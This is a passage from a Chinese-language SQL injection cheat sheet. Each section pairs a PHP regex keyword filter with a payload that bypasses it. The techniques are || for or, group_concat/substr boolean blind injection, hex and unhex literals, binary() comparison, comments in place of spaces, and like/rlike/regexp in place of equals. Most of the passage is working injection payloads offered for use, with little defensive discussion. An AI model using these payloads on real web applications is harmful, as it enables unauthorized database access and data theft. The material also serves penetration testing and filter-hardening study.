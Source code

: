 过滤代码：`preg_match('/(and|or|union|where|limit)/i', $id)`

绕过：`|| (select min(user) from group by user_id having user_id=1 ='admin'`

### [](#95-group-by-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.5 group by 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>\|(select substr((select group_concat(name)name from test), 1, 1))='t'<br>``` |

### [](#96-select-%E5%8F%8A%E5%8D%95%E5%BC%95%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.6 select 及单引号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)`

绕过：

布尔盲注不需要 select

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>\| substr(name,1,1)=0x74<br>\| substr(name,1,1)=unhex(74)<br>``` |

### [](#97-hexunhex-%E5%8F%8A-substr-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87---binary)9.7 hex、unhex 及 substr 过滤绕过 - binary

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>\| binary(name) = 0x74657374<br>``` |

### [](#98-%E7%A9%BA%E6%A0%BC%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.8 空格过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s)/i', $id)`

绕过：注释符代替空格

### [](#99-%E7%AD%89%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.9 等号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s| =)/i', $id)`

绕过：利用 `like、rlike、regexp、!(username<>"admin")(table_name<>'ffll44jj')` 代替等号

### [](#910-%E5%85%B6%E5%AE%83%E7%B1%BB%E5%9E%8B%E7%9A%84%E7%BB%95%E8%BF%87)9.10 其它类型的绕过
